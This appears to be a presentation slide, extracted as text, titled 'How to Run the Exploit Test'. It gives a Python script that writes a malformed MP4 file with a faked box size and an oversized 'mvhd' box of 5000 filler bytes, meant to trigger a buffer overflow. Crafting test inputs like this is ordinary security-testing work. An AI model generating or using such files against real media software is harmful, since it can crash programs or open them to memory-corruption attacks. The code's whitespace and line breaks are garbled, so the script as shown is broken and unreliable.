

# How to Run the Exploit Test

To simulate a vulnerability test, follow these steps:
Step 1: Create the Malicious File
Save the following code as *create_exploit.py*:python
import struct
def create_malicious_mp4(filename):     # MP4 header with oversized 'mvhd' box (triggers buffer overflow)
 	payload = (        b'\x00\x00\x00\x18'  # Box size (faked)        b'ftyp'              		# File type box        b'mp42'              # Minor version        		b'\x00\x00\x00\x00'          b'\x00\x00\x00\x3c'  # Start of malicious 	'mvhd' box        b'mvhd'              # Movie header box        b'A' * 5000          # Excessive data to trigger overflow    )

  with open(filename, 'wb') as f:        f.write(payload)    print(f"[+] Malicious MP4 file created: {filename}")create_malicious_mp4("exploit.mp4")